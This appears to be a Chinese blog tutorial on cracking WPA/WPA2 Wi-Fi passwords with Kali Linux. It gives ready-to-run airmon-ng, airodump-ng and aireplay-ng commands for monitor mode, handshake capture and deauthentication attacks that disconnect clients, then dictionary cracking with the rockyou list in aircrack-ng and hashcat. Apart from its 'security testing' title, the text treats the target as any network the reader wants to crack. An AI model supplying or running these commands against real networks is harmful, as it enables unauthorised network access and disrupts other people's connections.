 ```yaml
---
title: wlan密码安全测试
date: 2022-01-31 15:38:06
---
```


## 环境
1. Kali Linux（推荐），该系统预装了用到的所有工具，或者其它基于debian的GUN/Linux也是可以的，需要手动安装[Aircrack-ng](http://aircrack-ng.org/),`sudo apt-get install aircrack-ng`
>为了方便可以将系统安装到优盘（[安装文档](https://www.kali.org/docs/usb/live-usb-install-with-windows/)），奇怪的是，使用官方推荐的工具[etcher](https://github.com/balena-io/etcher/releases)、[rufus](https://rufus.ie/zh/)制作的优盘，在UEFI+GPT方式的引导下并没有成功进入系统，后来使用了Win32DiskImager并关闭了BIOS的安全启动才成功进入系统。
**注意：**使用Win32DiskImager制作启动盘会对优盘的容量有折损，建议使用闲置的优盘。

2. 一个支持[监听模式](https://en.wikipedia.org/wiki/Monitor_mode)的无线网卡（一般笔记本自带的就可以），台式机的话可以买个外置无线网卡，[支持的设备](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

## 渗透过程
### 开启网卡监听
```
# 列出支持Monitor_mode的接口
airmon-ng
# 开启网卡监听模式
airmon-ng start wlan0
# 查看处于监听的接口
iwconfig
```

### 扫描你要破解的网络

```
airodump-ng wlan0mon
```
`ctrl+c`退出扫描，记下你要破解无线的BSSID MAC地址和channel，后面会用到


### 捕获握手包

WAP/WAP2是用[4-way handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk)验证网络设备的，我们需要捕获到其中的一次握手来破解密码。
```
# replace -c and --bssid values with the values of your target network
# -w specifies the directory where we will save the packet capture
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w handshake mon0
```
当屏幕上出现类似`[ WPA handshake: bc:d3:c9:ef:d2:67`的字符串时，说明捕获成功，此时会在当前目录下生成handshake-01.cap文件，我们需要这个文件进行破解。
>此方式需要等有设备连接时才会捕获到握手包，但是我们可以通过以下方式，来促使这一过程的完成

### Deauth Attack
可以伪造一个forged deauthentication packets取消验证的数据包发给终端。
```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```

### 解密

```
# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```
等待出现`KEY FOUND!`时，则成功解密

### hashcat解密
hashcat是世界上最快，最先进的密码恢复实用程序，支持五种独特的攻击模式，适用于300多种高度优化的哈希算法。hashcat 目前在 Linux、Windows 和 macOS 上支持 CPU、GPU 和其他硬件加速器，并具有帮助启用分布式密码破解的功能。

* 通过[cap2hccapx](https://hashcat.net/cap2hccapx/)将cap文件转化为hashcat需要的格式
* 通过[example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes),搜索wap加密的Hash-Mode

```
# -m 指定hash-mode -a 指定攻击模式
hashcat -m 22000 -a 0 ${破解文件} ${字典}
```

